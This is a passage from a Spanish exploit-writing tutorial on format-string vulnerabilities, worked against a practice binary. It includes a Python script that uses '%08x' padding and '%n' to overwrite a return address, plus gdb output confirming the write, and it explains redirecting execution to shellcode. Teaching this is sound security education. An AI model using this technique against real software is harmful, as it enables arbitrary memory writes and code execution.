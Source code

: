 ```python

sys.stdout.write(pad(exploit))
```

Como vemos después de la dirección `0xbffff364` (subrayada en la imagen anterior) se continuan imprimiendo las “A” del padding.

![](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/imagenes/teoria/debug-protonstar-4.png)

En este punto si reemplazamos el parámetro `%08x` número 120 por `%n` ya no imprimimos la dirección de retorno sino que **escribimos** la cantidad de bytes impresos **en** la dirección de retorno `0xbffff364`.\
Para probar escribir en memoria adecuamos el script:

```python
#!/usr/bin/env python

import sys
from struct import pack

def pad(s):                       
    return (s + "A"*1000)[:1000]        

ret_addr = 0xbffff364             #addr a sobreescribir

exploit  = "AA"                   
exploit += pack("<I", ret_addr)
exploit += "%08x ." * 119         #imprime pila
exploit += "%n"                   #param. nro 120: sobreescribe ret_addr

sys.stdout.write(pad(exploit))
```

Cuando lo ejecutemos:

```bash
user@abos:~$ ./r.sh gdb ./protonstar1
(gdb) r "$(./exploit.py)"
Program received signal SIGSEGV, Segmentation fault.
0x000004ac in ?? ()
(gdb) x/wx 0xbffff364 
0xbffff364: 0x000004ac
```

Efectivamente logramos sobreescribir en la dirección de retorno `0xbffff364` el valor `0x000004ac`, que no es otra cosa que la cantidad de caracteres impresos hasta el `%n`. De ahí que cuando el programa intente retornar provoque una violación de segmento. De esta manera podriamos sobreescribir una dirección de retorno o una entrada de la GOT por la dirección de nuestro shellcode por ejemplo, manipulando la cantidad de caracteres impresos por el format string para que el número que escribamos sea la dirección donde ubicamos el código malicioso. Esta estrategia se logra paso a paso en la [práctica 5](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/5-practica.html).

En conclusión es posible aprovecharse de vulnerabilidades del tipo format string para imprimir el contenido de la pila de un proceso o para escribir un valor arbitrario en una dirección de memoria arbitraria.
